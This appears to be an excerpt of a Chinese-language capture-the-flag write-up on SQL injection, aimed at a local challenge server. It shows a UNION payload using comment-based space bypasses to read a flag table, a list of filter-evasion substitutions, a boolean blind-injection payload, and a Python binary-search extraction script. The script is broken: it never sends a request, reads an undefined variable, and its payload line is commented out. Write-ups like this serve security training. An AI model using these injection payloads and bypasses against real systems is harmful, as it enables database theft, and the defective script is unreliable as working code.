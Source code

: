 -1"/**/union/**/select/**/1,(select/**/group_concat(concat_ws(id,des,value))from/**/Fl4g)#

![img](https://cdn.nlark.com/yuque/0/2024/png/42552309/1728125295011-2d5d50fd-0503-4dd9-b856-6224a441ba6d.png)

#### blindsql1

字符注入，判断闭合类型

```sql
#有回显
Alice'#
#无回显
Alice"#
#单引号闭合
```

盲注，测试过滤

```sql
空格、=、/、ascii()、substr()
```

如何绕过

```sql
# 1.空格用括号
# 2.=用like
# 3.ascii()用ord()
# 4，substr()用mid()
```

多次尝试，会发现 `union` `=` `/` 都被禁用了。

在输入相关内容时左侧都会出现报错

这里先尝试了绕过，发现这个检测并不是替换防火墙，而是检测到相关关键词后直接break

所以只能尝试盲注了

这里先试试这一句，显示

Alice'and(ord(mid((select(group_concat(database()))),1,1))>1)#

显示表格，这里开始用脚本开始写

```sql
import requests
import time

url = "http://127.0.0.1:64146/?"
temp = {"student_name": ""}
column = ""
for i in range(1, 1000):
    time.sleep(0.02)
    low = 32
    high = 128
    mid = (low + high) // 2
    while (low < high):
        # 当前所在库
        # temp["student_name"] = "Alice'and(ord(mid((select(group_concat(database()))),%d,1))>%d)#" % (i , mid)
        time.sleep(0.04)
        print(low, high, mid, ":")
        if "Alice" in r.text:
            low = mid + 1
        else:
            high = mid
        mid = (low + high) // 2
    if (mid == 32 or mid == 127):
        break
    column += chr(mid)
```